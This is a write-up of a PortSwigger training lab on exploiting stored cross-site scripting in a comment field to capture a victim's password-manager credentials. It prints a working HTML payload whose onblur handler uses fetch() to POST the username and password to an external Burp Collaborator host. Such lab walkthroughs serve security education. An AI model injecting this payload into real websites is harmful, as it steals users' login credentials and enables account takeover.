


# Lab: Exploiting cross-site scripting to capture passwords

Lab-Link: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords>  
Difficulty: PRACTITIONER  
Python script: No script available  
The description below requires Burp Suite Professional to solve this lab!

## Known information

- Application has a stored XSS vulnerability in the comment feature
- A victim user views anything that is posted
- The lab can be solved both with and without Burp Collaborator
- Goals:
  - Exfiltrate the username and password of the victim
  - Impersonate the victim

## Steps

### Analysis

As a first analysis, I use `xX';!--"<XSS>=&{()}Xx` within a comment to see if some interesting characters may not be treated safely. This results in this HTML:



It looks like the angle brackets are not encoded, so I can use them to insert arbitrary tags within the comment.

### Finding interesting content to inject

The next step is to find out where username and password information can be obtained from. They are not stored within the cookie or similar easily accessible places, so exfiltrating it like in the [last lab](../Exploiting_cross-site_scripting_to_steal_cookies/README.md) is not possible.

There is one place that commonly stores usernames and passwords: password managers. Personally, I do not use any password manager that offers automatic completion or worse auto-fill in the browser. I prefer using a standalone application and manually copy username and password over.

But I realize I am a minority here, most people that use password managers prefer the convenience of auto-fill. If this is the case here as well, I may be able to trick the password manager to input the values for me.

The login form of the application looks like this:



### Preparing the payload

So I copy these to input fields into my payload. I add an `id` field to the username so I can reference it within the event JavaScript of the password field.

```html
<input type="username" name="username" id="exfiltrate_username">
<input type="password" name="password" onblur="fetch('https://x20mhgfj0fhdu7zn0di10p89j0pqdf.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:exfiltrate_username.value + ':' + this.value
});"> 
```

The `onblur` event triggers when the input field looses focus, so after the password manager inputs its values. It will send a `POST` request to my Burp Collaborator instance containing both username and password.

After posting the comment, the Burp Collabrator client is hit by an HTTP request that contains the required information in the body:


Logging in with these credentials solve the lab:


